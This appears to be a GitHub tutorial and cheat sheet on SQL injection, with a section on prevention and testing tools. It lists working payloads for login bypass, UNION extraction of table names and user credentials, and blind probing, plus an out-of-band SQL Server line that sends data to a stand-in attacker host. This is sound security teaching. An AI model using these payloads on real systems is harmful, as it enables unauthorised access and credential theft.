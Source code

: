 # SQL Injection (SQLi)     
SQL Injection (SQLi) is a web security vulnerability that allows attackers to manipulate SQL queries executed by an application’s database. This can lead to:  
> Unauthorized access to sensitive data  
> Bypassing authentication mechanisms  
> Data modification or deletion  
> Gaining control over the database server  

### **1 How SQL Injection Works**  
When an application fails to properly sanitize user input, attackers can insert malicious SQL code into queries.  

Example: Consider a vulnerable login system using the following SQL query:  
```sql
SELECT * FROM users WHERE username = '$user' AND password = '$pass';
```
If an attacker enters `' OR 1=1 --` as the username, the query becomes:  
```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = '';
```
Since `1=1` is always true, the query bypasses authentication, granting access without a valid password.

---

## **2. Types of SQL Injection**  

### **1 Error-Based SQL Injection**  
Relies on extracting information from database error messages.  

**Example (MySQL)**:
```sql
' ORDER BY 1 --   # Checking number of columns
' UNION SELECT NULL, NULL, @@version --  # Extract database version
```
---
### **2 Boolean-Based (Blind) SQL Injection**  
The attacker infers information based on application behavior.  

**Example (Testing for User Existence):**  
```sql
' AND 1=1 --  # Valid query (application responds normally)
' AND 1=2 --  # Invalid query (application behaves differently)
```
If the second query causes a different response, the site is vulnerable.

---
### **3 Time-Based Blind SQL Injection**  
Used when no visible output is returned. The attacker delays the response to confirm injection.  

**Example (MySQL)**:
```sql
' OR IF(1=1, SLEEP(5), 0) --  # Causes a 5-second delay if the query is executed
```
---
### **4 Union-Based SQL Injection**  
Uses the `UNION` SQL operator to extract data.  

**Example (Extracting Database Name):**  
```sql
' UNION SELECT database(), NULL, NULL --
```
---
### **5 Out-of-Band SQL Injection**  
Extracts data via external interactions (DNS, HTTP requests).  

**Example (SQL Server – Sending Data to an Attacker's Server):**  
```sql
'; EXEC xp_dirtree('//attacker.com/payload') --
```
---

## **3. Exploiting SQL Injection**  
### **1 Finding the Number of Columns**  
```sql
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --   # Increase the number until an error occurs
```
---
### **2 Extracting Database Version**  
```sql
' UNION SELECT @@version, NULL, NULL --
```
---
### **3 Extracting Table Names**  
```sql
' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database() --
```
---
### **4 Extracting Column Names from a Table**  
```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```
---
### **5 Extracting User Credentials**  
```sql
' UNION SELECT username, password FROM users --
```
---

## **4. Bypassing Authentication with SQL Injection**
### Classic Bypass Payloads  
- `admin' --`  
- `' OR '1'='1' --`  
- `" OR 1=1 #`  
- `admin' OR 1=1 --`  

---

## **5. Preventing SQL Injection**  

### **1 Use Prepared Statements (Parameterized Queries)**  
Ensures user input is treated as data, not SQL code.  

**Example (PHP – MySQLi Prepared Statement):**
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
```

**Example (Python – SQLite3 Prepared Statement):**
```python
cursor.execute("SELECT * FROM users WHERE username=? AND password=?", (user, password))
```

---
### **2 Input Validation & Whitelisting**  
- Allow only expected input formats (e.g., email, numeric values).  
- Reject special characters like `'`, `--`, `;`, `"`  

---
### **3 Escape Special Characters**  
If prepared statements are not available, use escaping.  

**Example (PHP – MySQLi Escape):**
```php
$username = mysqli_real_escape_string($conn, $_GET['username']);
```
---
### **4 Use Least Privilege Principle**  
- Grant database users minimal privileges.  
- Avoid using `root` or `admin` accounts in web applications.  
- Restrict `DROP`, `DELETE`, and `UPDATE` permissions where unnecessary.  

---
### **5 Implement Web Application Firewalls (WAFs)**  
Use security tools to block malicious requests.  
- **ModSecurity**  
- **Cloudflare WAF**  
- **Imperva WAF**  

---

## **6. SQL Injection Testing Tools**
### **1 SQLMap (Automated Testing)**
```bash
sqlmap -u "http://example.com/login.php?id=1" --dbs
```
---
### **2 Burp Suite (Manual Testing)**
- Intercept and modify requests.  
- Test SQLi payloads in form fields.  

---
### SQLi Tools & installation 
- **Havij** – GUI-based SQL Injection tool (https://github.com/MyIBGit/Havij-SQL-Injection-tool).  
- **NoSQLMap** – For NoSQL injection attacks (https://github.com/codingo/NoSQLMap.git).  
- **BBQSQL** – SQLi testing tool for blind SQL injections (https://github.com/CiscoCXSecurity/bbqsql).  

---



